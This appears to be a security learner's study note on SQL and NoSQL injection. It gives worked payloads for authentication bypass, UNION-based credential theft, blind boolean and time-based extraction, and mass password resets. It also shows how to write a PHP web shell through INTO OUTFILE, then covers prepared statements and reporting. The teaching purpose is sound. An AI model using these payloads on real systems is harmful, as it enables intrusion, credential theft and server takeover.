



# SQLI

Tags: Done
Status: Not started

[Sqli summary ](SQLI/Sqli%20summary%209b9f0ae810b74a80928ad39f18666626.md)

[SQLi writeups ](SQLI/SQLi%20writeups%206755c0d64fbf495ebcbaa7538cd985dd.md)

[Sql Injection source code review ](SQLI/Sql%20Injection%20source%20code%20review%2011b3c74efb3c809f9120da56f48fb790.md)

# what is Sqli vulnerability ?

A SQL injection is an attack in which the attacker executes arbitrary SQL commands on an application’s database by supplying malicious input inserted into a SQL statement to retrieve data  that  shouldn’t be allowed to access. 

Sqli could lead to 

- authentication bypass
- sensitive data leaks
- RCE
- Tampering databases

# Mechanisms

### Database

contains tables, rows, columns, and fields. The rows and columns contain the data, which gets stored in single fields.

### SQL language

is a language used to manage and communicate with **Databases**.

FOR EXAMPLE 

Table in database called Users 

| ID | Username | Password |
| --- | --- | --- |
| 1 | admin | 1818181 |
| 2 | vickie | pass222 |
| 3 | johan | pas55555 |

some queries 

```sql
SELECT * FROM Users; --query will return the entire Users table from the database:
========================================================================================
SELECT Username FROM Users; --This query would return all usernames in the Users table:
========================================================================================
SELECT * FROM Users WHERE Username='admin';--query would return all users with the username admin
```

## Injecting Code into SQL Queries

## **Frist Order**

### **Authentication Bypass**

let’s say that the vulnerable application ask user to enter his username & password to login

so the POST request will be as following 

```jsx
POST /login
Host: example.com
(POST request body)
username=vickie&password=password123
```

so the developer will insert the  username & password parameters into Sql statement in the backend without any filter 

```sql
SELECT Id FROM Users
WHERE Username='vickie' AND Password='password123';
```

here the attacker can mess with the logic of the query by insert special sql character 

 

```sql
POST /login
Host: example.com
(POST request body)
username="admin';-- "&password=password123
```

so the   **- -**   will make the rest of the query as comment so it won’t be interpreted so the final query 

```sql
SELECT Id FROM Users
WHERE Username='admin';-- ' AND Password='password123';

==========================================================
-- the interpreted query 
SELECT Id FROM Users WHERE Username='admin';

```

### **Sensitive Data Leaks**

demo!! : (UNION )operator in sql  combines the results of two different (SELECT) statements in the same table .

Attackers might also be able to retrieve data they shouldn’t be allowed to access. Let’s say a website allows users to access a list of their emails by providing the server a username and an access key to prove their identity

```sql
GET /emails?username=vickie&accesskey=ZB6w0YLjzvAVmp6zvr
Host: example.com

=========================================================

-- sql query of request 
SELECT Title, Body FROM Emails
WHERE Username='vickie' AND AccessKey='ZB6w0YLjzvAVmp6zvr';
```

so the attacker can achieve UNION attack to returns all usernames and passwords
from the Users table by sending the following request 

```sql
GET /emails?username=vickie&accesskey="ZB6w0YLjzvAVmp6zvr'
UNION SELECT Username, Password FROM Users;-- "
Host: example.com

=======================================================================

--sql query of request 
SELECT Title, Body FROM Emails
WHERE Username='vickie' AND AccessKey='ZB6w0YLjzvAVmp6zvr'
UNION SELECT Username, Password FROM Users; --;
```

Now the attacker can read all user’s usernames and passwords in the HTTP response.

### Account Take Over

Attackers can also inject code into statements like UPDATE (used to update a record), DELETE
(used to delete existing records), and INSERT (used to create new entries in
a table).

 **For example**

 let’s say that this is the HTTP POST request used to update a user’s password on the target website

```sql
POST /change_password
Host: example.com
(POST request body)
new_password=password12345

===================================================================

-- sql query of request --This query will update the row in the Users table whose ID field is equal to 2, and set its password to password12345
UPDATE Users
SET Password='password12345'
WHERE Id = 2;
```

here the attacker can use SET clause to specify which row should be updated in table by sending the following request 

```sql
POST /change_password
Host: example.com
(POST request body)
new_password="password12345';--

==================================

--sql query of request 

UPDATE Users
SET Password='password12345';-- WHERE Id = 2; 
```

so all users password will be updated to “password12345” so now the attacker can log in as any user using this password (password12345) .

## Using Second-Order SQL Injections

second-order SQL injections happen when user input gets stored into a database, then retrieved and used unsafely in a SQL query, in case that the application treats the data as it safe .

**For example** 

in application signup page that required username & password to create an account 

so if the attacker make the following request  

```sql
POST /signup
Host: example.com
(POST request body)
username="vickie' UNION SELECT Username, Password FROM Users;--
"&password=password123
```

if the developer doesn’t validate the input so the username parameter that contain the malicious query will be stored in the database and the password will stored too .

  

Later, the malicious user accesses their account with the following
GET request:

```sql
GET /emails
Host: example.com
=======================================
--the query will be 
SELECT Title, Body FROM Emails
WHERE Username='USERNAME'
```

the application will retrieve the username of the currently
logged-in user from the database and use it so the sql injection will be executed 

```sql
SELECT Title, Body FROM Emails
WHERE Username='vickie'
UNION SELECT Username, Password FROM Users;--
```

then all usernames and passwords as email titles and bodies
in the HTTP response.

# Hunting for SQL Injection

another way of classifying SQL injections is 

**Classic sqli & Blind sqli**

so the common technique for detecting any SQL injection is to insert a single **quote character (')**into every user input and look for errors or other anomalies.

another technique to using **fuzzing** which means sending designed Sqli payloads to the application and watching the response .   

## Step 1: Look for Classic SQL Injections

### **Classic sqli** :

the results of the SQL query are returned directly to the attacker in an HTTP response.

### Classic sqli types

- **UNION based**
    
    used to combine tow query in database (original query, malicious query )
    
    we will take for example the email list example in [sensitive data leaks example](SQLI%20061c7a9483d440678438a747474b94bb.md)  if the attacker send the following query 
    
    ```sql
    SELECT Title, Body FROM Emails
    WHERE Username='vickie' AND AccessKey='ZB6w0YLjzvAVmp6zvr'
    UNION SELECT Username, Password FROM Users;-- ;
    ```
    
    the server will response with the list of emails for ‘vickie’ user and all user names and passwords in the same table .
    

- **Error based**
    
    used to trigger an error in the database to collect information from the returned error message
    
    so if the attacker send this query in the request 
    
    ```sql
    SELECT Title, Body FROM Emails
    WHERE Username='vickie' AND AccessKey='ZB6w0YLjzvAVmp6zvr'
    UNION SELECT 1,
    CONVERT((SELECT Password FROM Users WHERE Username="admin"), DATE); –-
    ```
    
    it will cause an error because the *convert (value,format)*  will force the database to  convert the admin’s password to a date format, which can sometimes cause the database to throw a descriptive error *(Exception)* like this one:
    
    > *Conversion failed when trying to convert "t5dJ12rp$fMDEbSWz" to data type "date".*
    > 
    
    so when the error occur the database has accidentally revealed a sensitive piece of information to outsiders **(admin password).**
    

## Step 2: Look for Blind SQL Injections

### **Blind sqli or Inferential sqli :**

happen when attackers cannot directly extract information from the database because the application doesn’t return SQL data or descriptive error messages.

### Blind sqli types

- **Boolean based**
    
    occurs when attackers infer the structure of the database by injecting test conditions into the SQL query that will return either true or false.
    
    For instance, consider a scenario where a website, like [example.com](http://example.com/), maintains a table to track premium members who have special features and a "Welcome, premium member!" banner on their home pages. The website identifies premium members by matching a user's ID from a cookie to a table of registered premium members. If the SQL query for this process is as follows:
    
    ```sql
    SELECT * FROM PremiumUsers WHERE Id='2';
    ```
    
    In the above query, the website checks whether the user with ID '2' is a premium member and displays the premium banner accordingly. An attacker can exploit this by injecting a malicious payload into the user ID cookie, such as:
    
    ```sql
    2' UNION SELECT Id FROM Users WHERE Username = 'admin' and SUBSTR(Password, 1, 1) ='a';--
    ```
    
    The injected payload changes the query to:
    
    ```sql
    SELECT * FROM PremiumUsers WHERE Id='2'
    UNION SELECT Id FROM Users WHERE Username = 'admin' and SUBSTR(Password, 1, 1) = 'a';--
    ```
    
    The **`SUBSTR(Password, 1, 1)`** function extracts the first character of each user's password. If the original user (ID '2') is not a premium member, the result depends on the second **`SELECT`** statement, which only returns data if the admin account's password starts with 'a'. Attackers can use this technique to perform a brute-force attack on the admin's password by trying different characters.
    
    This Boolean-based SQL injection method allows attackers to extract critical information from the database, including details like the database version, table names, column names, and potentially even user credentials. It's a serious security risk and underscores the importance of preventing SQL injection vulnerabilities in web applications
    
- **Time-based**
    
    similar to (Boolean based) but the visual clues about the query’s results doesn’t appear in the response Time based relies on on the response-time difference caused by different SQL injection payloads.
    
    from the above [example](SQLI%20061c7a9483d440678438a747474b94bb.md)  Let’s say premium members don’t get a special banner, and their user interfaces don’t look any different so we will depend on  response-time difference 
    
    For example, say you submit the following ID:
    
    ```sql
    2' UNION SELECT
    IF(SUBSTR(Password, 1, 1) = 'a', SLEEP(10), 0)
    Password FROM Users
    WHERE Username = 'admin';
    ```
    
    so the final query  will be 
    
    ```sql
    SELECT * FROM PremiumUsers WHERE Id='2'
    UNION SELECT
    IF(SUBSTR(Password, 1, 1) = 'a', SLEEP(10), 0)
    Password FROM Users
    WHERE Username = 'admin';
    ```
    
    so we will know that the payload has been executed by observing the response time  If the time  is more than 10 seconds . which means that the admin password started with “a”.
    

## Step 3: Exfiltrate Information by Using SQL Injections

when the application doesn’t use input in sql query directly unsafely in a SQL query during a backend operation.

**demo:** In MySQL, the **(SELECT. . . INTO OUTFILE '/var/www/html/output.txt’)** statement tells the database to store the results of a query in an output file on the local machine

so in this case we will try to make the database run the malicious query by storing it 

for example when you visit “example.com” the application keep track of active user  by storing 

id & name  of user that has token from cookies  in active users table so the request and it’s query  will be 

```sql
GET /
Host: example.com
Cookie: user_id=2, username=vickie
---------------------------------------------
--the sql query
INSERT INTO ActiveUsers
VALUES ('2', 'vickie');
```

In this case, an attacker can craft a malicious cookie to inject into the
INSERT statement:

```sql
GET /
Host: example.com
Cookie: 1user_id="2', (SELECT Password FROM Users
WHERE Username='admin'
INTO OUTFILE '/var/www/html/output.txt'));-- ", username=vickie
```

so when the request is sent the following query will be done in the backend 

```sql
INSERT INTO ActiveUsers
VALUES ('2', (SELECT Password FROM Users
WHERE Username='admin'
INTO OUTFILE '/var/www/html/output.txt'));-- ', 'vickie');
```

Finally, you will find the password of the admin account stored into the
output.txt file on the target server.

[NoSQL Injection Vulnerability Prevention](SQLI/NoSQL%20Injection%20Vulnerability%20Prevention%2077e3214ea12d47029eb4c8fbc77cc0a4.md)

## Step 4: Look for NoSQL Injections

 **NoSql (Not Only Sql) Database :** Databases that doesn’t use Sql language and it store Data in 

other structures, such as key-value pairs and graphs  NoSql Database have it’s specific syntax for different types such as (MongoDB, Apache CouchDB, and Apache Cassandra).

### MongoDB Example

**Syntax**

users.find() returns users that meet a certain criteriaFor example, the following query returns users with the username vickie and the password password123:

```sql
Users.find({username: 'vickie', password: 'password123'});
```

so If the application uses this functionality to log in users and populates the database query directly with user input ,so the attackers can submit the password {$ne: ""} to log in as anyone

like the following 

```sql
Users.find({username: 'admin', password: {$ne: ""}});
```

Here, the query would return users whose username is admin
and password isn’t equal to an empty string, which is true unless the admin
has a blank password

**$ne:** In MongoDB $ne selects objects whose value is not equal to the specified value.

In MongoDB, certain operations such as $where, mapReduce, $accumulator, and $function can be used to run arbitrary JavaScript code on the server. This can be exploited by attackers if developers allow unvalidated user input in these operations

For example, you can define a function within the $where operator
to find users named vickie:

```sql
Users.find( { $where: function() {
return (this.username == 'vickie') } } );
```

if the developer allows unvalidated user input in this function and uses that to fetch account data, like this: 

```sql
Users.find( { $where: function() {
return (this.username == $user_input) } } );
```

In that case, an attacker can execute arbitrary JavaScript code by injecting it into the $where operation. For example, the following piece of malicious code will launch a denial-of-service (DoS) attack by triggering a never-ending while loop:

```sql
Users.find( { $where: function() {
return (this.username == 'vickie'; while(true){};) } } );
```

at the end we can detect  NoSqli & Sqli by insert 

- ‘ & “
- ;
- \
- ()
- []
- {}

into user input field and look for errors or other anomalies.

# Escalating the Attack

before Exploitation we should know more information about database using some tips

## Learn About the Database

first we need to determine the (DB software, DB structure , DB version )

Attempt some trial-and-error SQL queries to determine the database version.

the query will be like the following

```sql
SELECT Title, Body FROM Emails
WHERE Username='vickie'
UNION SELECT 1, @@version;--
```

The 1 in the UNION SELECT 1, DATABASE_VERSION_QUERY;-- line is necessary, because for a UNION statement to work, the two SELECT statements it connects need to have the same number of columns.

***Note :*** every different DB have it’s function name to get the version 

for example

- Microsoft SQL Server and MySQL  —> “@@version”
- PostgreSQL —> “version()”
- Oracle —> “v$version”

This query in MySQL will show you the table names of user-defined tables:

```sql
SELECT Title, Body FROM Emails
WHERE Username='vickie'
UNION SELECT 1, table_name FROM information_schema.tables
```

And this query will show you the column names of the specified table

```sql
SELECT Title, Body FROM Emails
WHERE Username='vickie'
UNION SELECT 1, column_name FROM information_schema.columns
WHERE table_name = 'Users'
```

we  can determine a database’s version with a time-based technique like so:

```sql
SELECT * FROM PremiumUsers WHERE Id='2'
UNION SELECT IF(SUBSTR(@@version, 1, 1) = '1', SLEEP(10), 0); --
```

## Gain a Web Shell

we can escalate the attack by gaining a web shell on the server.

if PHP application take request parameter and put it in system function as that :

```sql
<? system($_REQUEST['cmd']); ?>
```

we  can use the SQL injection vulnerability to upload this PHP code to a location that you can access on the server by using INTO OUTFILE 

```sql
SELECT Password FROM Users WHERE Username='abc'
UNION SELECT "<? system($_REQUEST['evil']); ?>"
INTO OUTFILE "/var/www/html/shell.php"
```

Since the password of the nonexistent user will be blank, you are essentially uploading the PHP script to the **shell.php** file. Then you can simply access your **shell.php** file and execute any command you wish:

```sql
http://www.example.com/shell.php?evil=COMMAND
```

# Automating SQL Injections

it is time consuming that every time to test SQLi manually so we can Automate this operation 

to use tools like :

 **Sqli** —> **(sqlmap tool)**

source :[https://github.com/sqlmapproject/](https://github.com/sqlmapproject/)sqlmap/wiki/.

**NoSqli** —>**(NoSQLMap)**

source :[https://github.com/codingo/NoSQLMap/](https://github.com/codingo/NoSQLMap/)

# Prevention

before starting make a secure code to prevent sqli vulnerability first we should know  

how SQL queries is executed 

When the SQL program arrives at the SQL server, the server will parse, compile, and optimize it. Finally, the server will execute the program and return the results of the execution :



and when  you insert user-supplied input into your SQL queries the  basically rewriting your program dynamically, using user input. An attacker can supply data that interferes with the program’s code and alter its logic



so here we can prevent it by using ***Prepared statements*** it works by making sure that user-supplied data does not alter your SQL query’s logic. These SQL statements are sent to and compiled by the SQL server before any user-supplied parameters are inserted.



so these mean that before the user supply input the query was already compiled so 

any malicious query the attacker will supply it treated as string 

**PHP Application Example**  

Say that we want to retrieve a user’s ID by using their provided username and password, so we want to execute this SQL statement:

```sql
SELECT Id FROM Users
WHERE Username=US++++ERNAME AND Password=PASSWORD;
```

Here’s how to do that in PHP:

```sql
$mysqli = new mysqli("mysql_host", "mysql_username", "mysql_password", "database_name"); 
$username = $_POST["username"]; 
$password = $_POST["password"];
```

So to use a prepared statement, you would define the structure of the query first. We’ll write out the query without its parameters, and put question marks as placeholders for the parameters:

```sql
$stmt = $mysqli->prepare("SELECT Id FROM Users WHERE Username=? AND Password=?");
```

This query string will now be compiled by the SQL server as SQL code. You can then send over the parameters of the query separately. The following line of code will insert the user input into the SQL query

```sql
$stmt->bind_param("ss", $username, $password);
```

Finally, you execute the query:

```sql
$stmt->execute();
```

# Finding Your First SQL Injection!

1. Map any of the application’s endpoints that take in user input.
2. Insert test payloads into these locations to discover whether they’re
vulnerable to SQL injections. If the endpoint isn’t vulnerable to classic
SQL injections, try inferential techniques instead.
3. Once you’ve confirmed that the endpoint is vulnerable to SQL injections,
use different SQL injection queries to leak information from the
database.
4. Escalate the issue. Figure out what data you can leak from the endpoint
and whether you can achieve an authentication bypass. Be careful not
to execute any actions that would damage the integrity of the target’s
database, such as deleting user data or modifying the structure of the
database.
5. Finally, draft up your first SQL injection report with an example payload
that the security team can use to duplicate your results. Because
SQL injections are quite technical to exploit most of the time, it’s a
good idea to spend some time crafting an easy-to-understand proof of
concept.